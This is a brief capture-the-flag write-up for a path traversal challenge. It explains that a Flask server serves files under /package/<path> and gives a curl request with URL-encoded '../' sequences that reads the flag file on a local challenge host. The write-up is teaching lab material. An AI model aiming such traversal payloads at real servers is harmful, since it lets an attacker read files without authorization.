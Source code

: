 # Path Traversal 1

```shell
cat /challenge/server
```

The server is a Flask app that, on receiving requests at `/package/<path>`, serves the file at `/challenge/files/path`
We know that the flag is at `/challenge/flag`

Start the server and use curl:

```shell
curl -v http://challenge.localhost:80/package/..%2F..%2Fflag
```

"..%2F" is URL-encoding of "../"
